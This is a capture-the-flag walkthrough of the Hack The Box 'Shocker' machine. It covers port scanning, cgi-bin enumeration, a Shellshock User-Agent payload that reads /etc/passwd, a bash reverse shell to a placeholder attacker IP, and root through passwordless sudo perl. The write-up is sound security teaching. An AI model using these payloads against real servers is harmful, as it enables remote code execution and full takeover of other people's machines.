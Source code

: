 
![shocker badge](images/shocker/shockerbadge.jpg)

Shocker is a Linux machine rated Easy on HTB.

# Information Gathering and Vulnerability Identification

## OSINT

Shocker is a likely reference to the [Shell Shock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

## Port Scan

`nmap -sC -sV -oA initial 10.10.10.56`

![nmap results](images/shocker/shockernmap.jpg)

We have two ports to probe. (80 and 2222)

Before we dive into them, let's start another nmap scan to cover all ports.

`nmap -p- -oA all 10.10.10.56`

![scan all](images/shocker/shockernmapall.jpg)

The service identified is based on the typical services associated with each port. It may not be accurate. Compare the SERVICE on port 2222 with our initial scan with version detection.

## HTTP (Port 80)

These are standard starting points for webservers:

* Visit the page in a browser
* Bust for directories and files
* Inspect the DOM and sources using Developer Tools if necessary

### Browsing

![bug](images/shocker/dontbugme.jpg)

This image pretty much confirms that we need to look for a shellshock vulnerability here.

### Testing For Shell Shock

If not for the box name and the image, I might not have thought of testing for this specific vulnerability straightaway. This box is didactic.

#### What is Shell Shock?

[Cloudflare has a fantastic explanation here.](https://blog.cloudflare.com/inside-shellshock/)

TL;DR

* Web servers at times need other programs on the machine to respond to a **request**.
* To facilitate that, web servers need to **share information about the request** with other programs.
* They do that by setting the information they want to share as **environment variables** in the shell. (In this case, the shell is Bash.)
* But some versions of Bash has a flaw that causes it to **treat some variables as commands to be executed**.

This vulnerability allows code to be executed by a remote attacker who is manipulating requests sent to the server.

#### Testing For Shell Shock

The cgi-bin holds server-side scripts, so it's the natural attack vector. Let's see if it exists.

![cgi-bin](images/shocker/cgi403.jpg)

403 Forbidden means that we are not authorized to access, but it does exist.

Now, let's look for scripts that we can use to test for shell shock. While we may not be able to access the directory, we might be able to access files within it.

**Set up a scan with dirbuster.**
* Look for common cgi script filetypes like shell, perl, or php scripts.

![dirbuster setup](images/shocker/dirbustersetup.jpg)

**Dirbuster Results**

![shell script](images/shocker/shellscript.jpg)

The file **user.sh** might be what we are looking for.

Opening it up, it seems like a shell script that shows the uptime.

```
Content-Type: text/plain

Just an uptime test script

 00:45:01 up  2:16,  0 users,  load average: 0.00, 0.00, 0.00
 ```
Now, let's use Burp Repeater to test for Shell Shock vulnerability.

Burp Repeater will send a request for user.sh with a modified header value. If the system is vulnerable to Shell Shock, we can get bash to execute code.

Enter this as the User-Agent value.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

![burp repeater](images/shocker/shockerburprepeater.jpg)

Look at the response on the right-hand side. The passwd file is returned as part of the response.

**The system is vulnerable to Shell Shock.**

Before we move on to getting a shell on the system, let's take a closer look at the modified header value to understand how it works.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

* `() { :; };` - syntax of an empty bash function

* `echo;` - the subsequent command works without this echo command, but you need it to receive a well-formed HTML response ([with an empty line between the headers and the content](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html)). In other words, if you expect text output and you want to see it as part of the HTML response, you need this.

* `/bin/bash -c 'cat /etc/passwd'` - getting a new bash session to print the passwd file

# Attacks and Exploits

## Exploiting Shellshock

First, let's setup a listener for catching our reverse shell.

`nc -nvlp 8888`

Then, send another request for user.sh with the header value modified as:

`() { :;}; /bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

This will get a bash reverse shell, which is the natural choice here as bash is available. Note that `echo;` is not needed here because we are not interested in the HTML response.

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 58462
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Got the user flag!

<details>
<summary>Expand this if you want to understand the bash reverse shell.</summary>

[Fantastic but more technical explanation here](https://hypothetical.me/post/reverse-shell-in-bash/)

`/bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

* `/bin/bash` - getting a new bash session

* `-i` - in interactive mode

* `>&` - redirecting both standard output and error

* `/dev/tcp/10.10.X.X/8888` - to TCP socket associated with IP address 10.10.X.X at port 8888

* `0>&1` - redirect standard input to standard output which is now a socket
</details>

## Privilege Escalation

Run `sudo -l` to list user shelly's privilege.

```
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
  ```
Since we can run Perl as root (without password!), we can escalate our privilege by launching a new shell with Perl. By running perl with root privileges,

`sudo perl -e 'exec "/bin/bash";'`

* `sudo` - execute command as another user; if you do not specify a user (like what we are doing here), it will assume you want to execute the command as root (superuser)

* `perl` - Perl language interpreter; we use it here because we can run it with root privileges.

* `-e` - indicates that the Perl command `exec "/bin/bash";` should be executed

After Perl executes the command to get us a bash shell, let's confirm if we have root privileges.

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'          
sudo perl -e 'exec "/bin/bash";'
whoami
root
```

# Ending Thoughts

Although this is an easy straightforward box, I've learned more by exploiting manually using Burp to sent requests and trying to understand every step of the way.

You can also use Metasploit or other available exploits to root this box.

**References**

* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/
* https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
* https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
* https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/
* https://github.com/opsxcq/exploit-CVE-2014-6271
* https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/ (A simple demo)
